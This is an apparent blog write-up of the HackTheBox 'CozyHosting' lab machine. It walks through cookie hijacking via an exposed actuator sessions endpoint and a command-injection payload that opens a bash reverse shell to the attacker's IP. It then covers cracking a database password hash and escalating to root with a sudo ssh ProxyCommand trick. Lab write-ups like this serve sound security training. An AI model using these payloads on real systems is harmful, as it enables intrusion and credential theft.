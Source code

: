 ```yaml
---
layout: page
title:  "CozyHosting"
date:   2025-07-19 12:05:57 -0400
categories: jekyll update
---
```


# CozyHosting

HackTheBox: Easy

> Cozyhosting is an Ubuntu system when you can practices technique as cookie hijacking, reverse shells, password hashing.
> 

## 1: Enumeration

- Check the active connection

![Untitled]({{ '/assets/images/cozyhosting/Untitled.png' | relative_url }})

- Scanning ports

![Untitled](/assets/images/cozyhosting/Untitled%201.png)

We can see there’s a web services running in 80 port and ssh service in 22 port it could be a way to get in later.

- Dirsearch looking for enable directories

![Untitled](/assets/images/cozyhosting/Untitled%202.png)

Something interesting in /actuator/sessions

## 2: Looking around

- There is a possible cookie hijacking vulnerability.

![Untitled](/assets/images/cozyhosting/Untitled%203.png)

- We can use BurpSuite

![Untitled](/assets/images/cozyhosting/Untitled%204.png)

- We simulate the log in process and inject the cookie, we change it at the right side bar

![Untitled](/assets/images/cozyhosting/Untitled%205.png)

![Untitled](/assets/images/cozyhosting/Untitled%206.png)

## 3: User flag

- It executes commands, so get can make a rev shell to get access

```bash
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

```bash
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

${IFS%??} For blank spaces and convert it to url format

- We use nc to receive the connection and make the shell stable like this

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

We use cat etc/passwd for user

- We’ve got and .jar with db credentials, using python

```bash
python3 -m http.server 7777
```

```bash
wget http://10.10.00.000:7777/<file_name>
```

- Look for creds:

![Untitled](/assets/images/cozyhosting/Untitled%207.png)

```bash
psql -h 127.0.0.1 -U postgres
```

```bash
\c cozyhosting
```

```bash
\d
select * from users;
```

We got the hash for admin, we solve using

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We use ssh to break into

```bash
ssh josh@10.10.11.230
```

## 4: Priv esc

- Using sudo -l

![Untitled](/assets/images/cozyhosting/Untitled%208.png)

- In [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo) We find a way to get root access easily

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![Untitled](/assets/images/cozyhosting/Untitled%209.png)

- Machine pwned
![Untitled](/assets/images/cozyhosting/Untitled%2010.png)
